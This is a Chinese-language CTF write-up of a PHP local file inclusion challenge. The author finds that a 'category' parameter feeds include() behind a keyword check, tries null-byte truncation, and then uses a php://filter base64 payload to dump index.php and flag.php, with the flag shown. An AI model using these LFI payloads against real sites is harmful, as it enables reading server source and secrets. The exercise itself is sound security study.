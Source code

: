 ![](<./img/Pasted image 20221115084857.png>)

---
首页长这样

![](<./img/Pasted image 20221115084917.png>)

按下`WOOFERS`后访问
```php
/index.php?category=woofers
```
并且随机显示一张小狗的图片

![](<./img/Pasted image 20221115085147.png>)

按下`MEOWERS`后访问
```php
/index.php?category=meowers
```
并且随机显示一张小猫的图片

![](<./img/Pasted image 20221115085322.png>)

---
尝试对`category`进行修改
```php
/index.php?category=123
```
> Sorry, we currently only support woofers and meowers.

```php
/index.php?category=1woofers
```
  
> **Warning**: include(1woofers.php): failed to open stream: No such file or directory in **/var/www/html/index.php** on line **37**  
  
> **Warning**: include(): Failed opening '1woofers.php' for inclusion (include_path='.:/usr/local/lib/php') in **/var/www/html/index.php** on line **37**

说明`category`的参数会经过一次是否包含`woofers`或`meowers`的检查，接着被加上`.php`后缀传给`include`函数进行包含

---
尝试使用`%00`进行截断
```php
/index.php?category=flag.php%00woofers
```
> **Warning**: include(): Failed opening 'flag.php' for inclusion (include_path='.:/usr/local/lib/php') in **/var/www/html/index.php** on line **37**

发现并不能读取到

尝试使用`php://filter`伪协议对`index.php`进行读取

使用一个`php://filter`伪协议的`trick`
```php
/index.php?category=php://filter/read=convert.base64-encode/write=woofers/resource=index
```

返回了`base64`编码后的`index.php`
```php

<?php
$file = $_GET['category'];

if(isset($file))
{
	if(strpos($file, "woofers") !== false || strpos($file, "meowers") !== false || strpos($file, "index")){
		include ($file . '.php');
	}
	else{
		echo "Sorry, we currently only support woofers and meowers.";
	}
}
?>
```
和预想的后端实现一致，不过`index`不出现在第一个位置上就不会被ban，所以上面的`trick`其实可有可无

尝试直接读取`flag.php`
```php
/index.php?category=php://filter/read=convert.base64-encode/write=woofers/resource=flag
```

```php
<!-- Can you read this flag? -->
<?php
 // flag{a8e44af0-53eb-441c-b549-8a5a50523ffe}
?>
```
终于做到水题啦QwQ

#PHP #Web #伪协议 #bypass #encoding #LFI 
